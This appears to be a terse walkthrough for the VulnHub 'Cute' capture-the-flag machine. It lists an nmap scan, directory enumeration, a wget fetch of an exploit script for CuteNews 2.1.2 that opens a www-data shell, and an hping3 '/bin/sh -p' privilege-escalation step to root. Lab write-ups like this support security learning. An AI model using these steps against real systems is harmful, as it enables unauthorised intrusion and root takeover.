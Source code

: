 

# Cute Walkthrough 

**VulnHub Link:** [Cute](https://www.vulnhub.com/entry/bbs-cute-102,567/)
**Difficulty:** Easy
**Release Date:** 24 Sep 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

in <ip>/index.php , CuteNews 2.1.2 vulnerability found 
```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Cute/48800.py
```

www-data shell opened and user flag captured 


fox user found

## 3.Privilege Escalation

linpeas.sh executing ---> ./usr/sbin/hping3;/bin/sh -p


escalating root and root flag captured
